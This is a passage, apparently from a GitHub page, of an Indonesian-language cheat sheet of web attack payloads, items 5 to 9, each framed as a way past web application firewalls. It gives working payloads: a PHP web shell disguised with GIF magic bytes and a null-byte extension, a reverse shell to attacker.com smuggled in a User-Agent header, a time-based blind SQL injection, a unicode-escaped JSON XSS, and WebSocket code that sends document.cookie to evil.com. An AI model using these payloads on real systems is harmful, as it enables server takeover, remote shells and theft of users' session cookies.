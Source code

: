 ### **🛡️ 5. Web Shell Upload dengan Magic Bytes & Null Byte Injection**  
```php
GIF89a;  
<?php system($_GET['cmd']); ?>\x00.jpg
```
**📌 Teknik:**  
✅ Menambahkan header `GIF89a;` agar WAF mendeteksi sebagai gambar, bukan skrip PHP.  
✅ Null byte (`\x00`) mengelabui filter ekstensi file.  

---

### **🛡️ 6. Header-Based Command Injection**  
```http
GET /vuln.php HTTP/1.1  
Host: target.com  
User-Agent: ; /bin/bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'
```
**📌 Teknik:**  
✅ Menyisipkan perintah dalam `User-Agent` untuk dieksekusi oleh server.  
✅ Menggunakan reverse shell untuk mendapatkan akses penuh.  

---

### **🛡️ 7. Time-Based Blind SQLi with WAF Evasion**  
```sql
' OR (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)-- -
```
**📌 Teknik:**  
✅ Menggunakan PostgreSQL `pg_sleep(10)` untuk mendeteksi WAF tanpa output langsung.  
✅ Pola `CASE-WHEN` membuatnya lebih sulit dikenali.  

---

### **🛡️ 8. JSON XSS Injection with Unicode Evasion**  
```json
{
    "username": "admin<script>\u0061\u006C\u0065\u0072\u0074(1)</script>",
    "password": "test"
}
```
**📌 Teknik:**  
✅ Menyisipkan karakter unicode (`\u0061` → 'a', `\u006C` → 'l', dll.) untuk menghindari filter biasa.  
✅ Bisa digunakan untuk XSS di aplikasi yang menerima JSON input.  

---

### **🛡️ 9. WebSocket-Based WAF Bypass for XSS**  
```javascript
var ws = new WebSocket("wss://evil.com");  
ws.onopen = function() { ws.send(document.cookie); };
```
**📌 Teknik:**  
✅ Menyisipkan payload dalam WebSocket agar tidak terdeteksi di request HTTP biasa.  
✅ Berguna untuk serangan **DOM-based XSS** di browser modern.  

---